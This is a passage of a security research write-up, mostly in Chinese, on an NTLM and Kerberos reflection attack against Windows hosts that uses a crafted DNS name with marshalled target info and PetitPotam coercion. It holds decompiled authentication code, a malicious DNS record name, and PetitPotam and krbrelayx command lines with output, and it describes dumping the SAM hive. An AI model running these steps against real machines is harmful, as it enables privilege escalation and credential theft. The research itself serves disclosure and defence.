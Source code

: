 ```C++=
    } else {
        SspContext->CheckForLocal = TRUE;
    }
[...]
    if (SspContext->CheckForLocal) {
        RtlCopyAnsiString(WorkstationName, NtLmGlobalOemPhysicalComputerNameString);
        RtlCopyAnsiString(DomainName, NtLmGlobalOemPrimaryDomainNameString);
        NegotiateMessage->OemWorkstationName =  WorkstationName;
        NegotiateMessage->OemDomainName =  DomainName;
    }
[...]
```

首先是 `msv1_0！SspIsTargetLocalhost` 函式可用來判斷目標名稱是否對應至目前的電腦。為此，服務類別（192.168.56.3 或 srv1）之後的部分（不區分大小寫）與數個字串進行比較：

- The FQDN of the machine (SRV1.ASGARD.LOCAL)
- The hostname of the machine (SRV1) → in our case, it matches!
- localhost

如果沒有相符項，則目標名稱會被視為 IP 位址，並與指派給目前電腦的所有 IP 位址進行比較。
如果先前的檢查均未通過，則目標名稱會被視為與目前的電腦不同。

#### 最後，如果滿足以下所有條件，則工作站和域名將包含在 NTLM_NEGOTIATE 消息中：

- The target is the current machine
- The client did not ask for NULL authentication
- The current user’s credential are used (no explicit credentials were specified)

在我們的例子中，所有這些條件都是正確的，這就是為什麼 SMB 客戶端在強制使用名稱 `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` 時提示伺服器進行本地 NTLM 身份驗證的原因。

### 為什麼我們在機器上享有特權？

1. PetitPotam 強迫 lsass.exe 向我們的服務器進行身份驗證，lsass.exe 以 SYSTEM 的形式運行。
2. 當用戶端 （lsass.exe） 收到指出必須執行本機 NTLM 驗證的 NTLM_CHALLENGE 訊息時，它會將其 SYSTEM 權杖複製到伺服器內容中。
3. 當伺服器收到 NTLM_AUTHENTICATE 訊息時，它會從內容物件擷取權杖，並模擬它以透過 SMB 執行進一步的動作 （在我們的例子中，使用遠端登錄服務來傾印 SAM Hive 並入侵機器） 。

#### 我們注意到可以註冊單個 DNS 記錄來破壞任何易受攻擊的機器： localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 。

事實上，當封送處理的目標資訊從目標名稱中剝離時，只會保留 localhost，這表示簽入 `msv1_0！SspIsTargetLocalhost` 也會傳遞，而不論機器的主機名稱為何。

---

## Negotiate 工作流程

在第一次發現之後，我們想知道 Kerberos 是否也受到影響。
畢竟，如前所述，Kerberos 沒有針對反射攻擊的保護。因此，透過將 ntlmrelayx.py 替換為 krbrelayx.py 來執行相同的攻擊：

```powershell=
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[-] No negTokenInit sent by client
```
